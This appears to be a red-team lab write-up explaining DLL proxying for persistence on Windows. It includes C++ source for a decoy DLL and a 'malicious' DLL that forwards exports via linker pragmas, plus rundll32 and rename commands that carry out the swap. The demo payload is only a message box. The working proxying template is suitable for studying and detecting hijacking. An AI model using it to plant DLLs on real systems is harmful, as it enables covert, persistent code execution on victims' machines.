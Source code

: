 # DLL Proxying for Persistence

This is a quick lab to get familiar with a technique that's been on my todo list for some time - DLL proxying. This technique could be used for persistence or to intercept data, but in this lab, I am only concerned with persistence.

## Overview

In the context of malware, DLL proxying is a DLL hijacking technique, where a legitimate DLL say, `legit.dll` is renamed to `legit1.dll` and a malicious dll, which exports **all** the same functions that the `legit1.dll` exports, is placed instead of `legit.dll`.

Once the dll is hijacked, whenever a program calls a function, say `exportedFunction1` from `legit.dll`, here is what happens:

* `legit.dll` gets loaded into the calling process and executes its malicious code, say reaches out to the C2
* `legit.dll` forwards the call to `exportedFunction1` in `legit1.dll`
* `legit1.dll` executes the `exportedFunction1`

This function forwarding from one DLL to another is what gives the technique its name - DLL proxying, since the malicious DLL is sitting in between the application calling the exported function and a legitimate DLL that implements that exported function.

At a high-level, below diagram shows how it all looks before and after the DLL is hijacked:

![](<../../.gitbook/assets/image (654).png>)

## Walkthrough

At a high level, the technique works as follows:

1. Decide on which DLL to hijack. Let's say, it's located in c:\temp\legit.dll. Move it to c:\temp\legit1.dll
2. Get a list of all the exported functions of c:\temp\legit1.dll
3. Create a malicious DLL malicious.dll, that once loaded by the target process, executes your payload
4. Inside the malicious.dll, redirect/forward **all** the exported functions by legit.dll (this is the DLL we are hijacking) to legit1.dll (this is still the same DLL we are hijacking, just with a new name)&#x20;
5. Copy malicious.dll to c:\temp\legit.dll
6. At this point, any program that calls an **any** exported function in legit.dll will now execute your malicious payload and then transfer the execution to the same exported function in c:\temp\legit1.dll.

### Target DLL

For demo purposes, we will create our own DLL legitimate DLL to be hijacked, called `legit.dll`:

{% tabs %}
{% tab title="legit-dll.cpp" %}
```cpp
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction1", "Hi from legit exportedFunction1", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction2", "Hi from legit exportedFunction2", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction3", "Hi from legit exportedFunction3", 0);
}
```
{% endtab %}
{% endtabs %}

Let's say we've now compiled the above as a `legit.dll` to `c:\temp\legit.dll`. It has 3 exported functions as shown below:

![](<../../.gitbook/assets/image (638).png>)

To confirm the DLL works, we can see that calling `exportedFunction1` from inside the `legit.dll` gives a popup like this:

```
rundll32 c:\temp\legit.dll,exportedFunction1
```

![](<../../.gitbook/assets/image (639).png>)

We now have the `legit.dll` and its target function `exportedFunction1` to hijack, let's move on to the malicious DLL that will do the function proxying.

### Malicious DLL

Let's now create the `malicious.dll` - we will be using it to hijack programs that call functions from `c:\temp\legit.dll`. Compile the below as a `malicious.dll`:

{% tabs %}
{% tab title="malicious-dll.cpp" %}
```cpp
#include "pch.h"

#pragma comment(linker, "/export:exportedFunction1=legit1.exportedFunction1")
#pragma comment(linker, "/export:exportedFunction2=legit1.exportedFunction2")
#pragma comment(linker, "/export:exportedFunction3=legit1.exportedFunction3")

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endtab %}
{% endtabs %}

The key piece in the `malicious.dll` is the `#pragma` comment at the top, that tells the linker to export / forward (technical name is `Forward Export`) functions `exportedFunction1`, `exportedFunction2`, `exportedFunction3` to the module `legit1.dll`.

Also, note that once the `malicious.dll` is loaded, it will display a prompt saying `Hi from malicious dll`, but this could be any payload of our choice:

![](<../../.gitbook/assets/image (645).png>)

Let's test if the `malicious.dll` executes our payload - shows a message prompt:

```
rundll32 malicious.dll,whatever
```

![](<../../.gitbook/assets/image (643).png>)

### DLL Proxying / Hijacking

We now have all the required pieces to test the dll proxying concept.&#x20;

Let's move the `malicious.dll` to `c:\temp`, where `legit.dll` resides:

![](<../../.gitbook/assets/image (644).png>)

Rename the `legit.dll` to `legit1.dll` and `alicious.dll` to `legit.dll`:

```
mv .\legit.dll .\legit1.dll; mv .\malicious.dll .\legit.dll
```

![](../../.gitbook/assets/rename-files.gif)

### Moment of Truth

Now, let's invoke the `exportedFunction1` from `legit.dll` - this is our malicious DLL with DLL proxying enabled.

If the hijacking is successful, we will see the prompt `Hi from malicious dll` followed by the prompt `Hi from legit exportedFunction1` from the `legit1.dll`:

![Successful DLL proxying in action](../../.gitbook/assets/dll-proxying-forwarding-in-action.gif)

Implementing DLL proxying for a DLL that exports many functions may be a bit painful, but luckily there are multiple projects that help you automate this process, one of which is [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy), so go check it out.

## References

[https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf](https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf)
